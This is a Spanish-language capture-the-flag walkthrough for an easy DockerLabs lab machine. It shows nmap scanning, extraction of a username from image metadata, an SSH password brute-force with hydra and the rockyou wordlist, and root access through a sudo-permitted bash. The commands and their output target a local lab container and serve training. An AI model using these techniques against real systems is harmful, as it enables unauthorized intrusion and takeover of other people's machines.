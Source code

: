 # borazuwarahctf

Maquina borazuwarahctf de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Autor: [BorazuwarahCTF](https://github.com/borazuwarah/)

![Dock](../../../maquina-borazuwarahctf/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -sVC 172.17.0.2
```

```css
Nmap scan report for 172.17.0.2
Host is up (0.00054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.00 seconds
```

No vemos nada interesante por lo que continuaremos desde el navegador. Al entrar se ve una imagen de un huevo kinder y al hacer un poco de fuzzing no encontramos nada, por lo que sospecho que trata de `Esteganografía`, lo que significa que puede haber archivos escondidos dentro de la imagen. Para hacerlo nos descargamos la imagen y ejecutamos el siguiente comando:

```css
steghide extract -sf imagen.jpeg
```

nos pide un salvoconducto pero como no lo tenemos le damos al enter y nos extrae un archivo llamado "secret.txt", lo leemos y nos dice que no esta ahi la solución pero _si esta en la imagen_, sabiendo esto podemos usar `exiftool`, para hacerlo ejecutamos:

```css
exiftool imagen.jpeg
```

```ruby
ExifTool Version Number         : 12.57
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:08:19 15:39:19-03:00
File Access Date/Time           : 2024:08:19 15:39:19-03:00
File Inode Change Date/Time     : 2024:08:19 15:39:37-03:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Como vemos, ahora si encontramos la solucion pero a medias, ya que nos da un usuario llamado "borazuwarah" pero no la contraseña, por lo que recurriremos a usar hydra, para hacerlo ejecutamos el siguiente comando:

```css
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

```abap
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

Como vemos, nos encuentra la contraseña para el usuario "borazuwarah" que es "123456".

## INTRUSION

Ahora simplemente nos conectamos al ssh con:

```css
ssh borazuwarah@172.17.0.2
```

y ponemos la contraseña.

Ya estamos dentro.

## ESCALADA DE PRIVILEGIOS

Ejecutamos `sudo -l` para ver si podemos ejecutar algo como root, y vemos que el binario bash si se puede, por lo que simplemente ponemos:

```abap
 sudo /bin/bash -p
```

Y listo, _SOMOS ROOT_.

![root](../../../maquina-borazuwarahctf/imagenes/roott.png)

Gracias por leer.
